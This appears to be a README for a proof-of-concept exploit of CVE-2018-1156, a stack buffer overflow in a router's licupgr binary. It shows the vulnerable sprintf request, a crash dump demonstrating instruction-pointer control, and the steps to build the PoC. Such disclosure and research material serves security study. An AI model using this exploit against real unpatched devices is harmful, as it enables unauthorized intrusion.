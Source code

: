 # CVE-2018-1156

The licupgr binary has a sprintf call that an authenticated user can use to trigger a remote stack buffer overflow. The sprintf is used on the following string:

```sh
GET /ssl_conn.php?usrname=%s&passwd=%s&softid=%s&level=%d&pay_type=%d&board=%d HTTP/1.0
```

Where the user has control of the username and password strings. Tenable's proof of concept results in the following crash dump:

```sh
2018.05.25-10:57:13.72@0: /nova/bin/licupgr
2018.05.25-10:57:13.72@0: --- signal=11 --------------------------------------------
2018.05.25-10:57:13.72@0: 
2018.05.25-10:57:13.72@0: eip=0x41414141 eflags=0x00010202
2018.05.25-10:57:13.72@0: edi=0x41414141 esi=0x41414141 ebp=0x41414141 esp=0x7fb052d0
2018.05.25-10:57:13.72@0: eax=0x7fb0532c ebx=0x41414141 ecx=0x00000899 edx=0x00000001
2018.05.25-10:57:13.72@0: 
2018.05.25-10:57:13.72@0: maps:
2018.05.25-10:57:13.72@0: 08048000-0804d000 r-xp 00000000 00:0b 1101       /nova/bin/licupgr
2018.05.25-10:57:13.72@0: 77547000-7757c000 r-xp 00000000 00:0b 997        /lib/libuClibc-0.9.33.2.so
2018.05.25-10:57:13.72@0: 77580000-7759a000 r-xp 00000000 00:0b 993        /lib/libgcc_s.so.1
2018.05.25-10:57:13.72@0: 7759b000-775aa000 r-xp 00000000 00:0b 977        /lib/libuc++.so
2018.05.25-10:57:13.72@0: 775ab000-775ad000 r-xp 00000000 00:0b 992        /lib/libdl-0.9.33.2.so
2018.05.25-10:57:13.72@0: 775af000-776f7000 r-xp 00000000 00:0b 987        /lib/libcrypto.so.1.0.0
2018.05.25-10:57:13.72@0: 77706000-7774a000 r-xp 00000000 00:0b 989        /lib/libssl.so.1.0.0
2018.05.25-10:57:13.72@0: 7774e000-77799000 r-xp 00000000 00:0b 979        /lib/libumsg.so
2018.05.25-10:57:13.72@0: 7779f000-777a6000 r-xp 00000000 00:0b 991        /lib/ld-uClibc-0.9.33.2.so
2018.05.25-10:57:13.72@0: 
2018.05.25-10:57:13.72@0: stack: 0x7fb06000 - 0x7fb052d0 
2018.05.25-10:57:13.72@0: 41 41 26 73 6f 66 74 69 64 3d 30 58 59 5a 2d 43 46 5a 52 26 6c 65 76 65 6c 3d 31 26 70 61 79 5f 
2018.05.25-10:57:13.72@0: 74 79 70 65 3d 31 26 62 6f 61 72 64 3d 31 20 48 54 54 50 2f 31 2e 30 0d 0a 41 63 63 65 70 74 3a 
2018.05.25-10:57:13.72@0: 
2018.05.25-10:57:13.72@0: code: 0x41414141
```

## Compilation
This code was tested on Ubuntu 18.04. There is a dependency on boost and cmake. Simply install them like so:

```sh
sudo apt install libboost-all-dev cmake
```

To compile simply do the following:

```sh
cd poc/cve_2018_1156
mkdir build
cd build
cmake ..
```
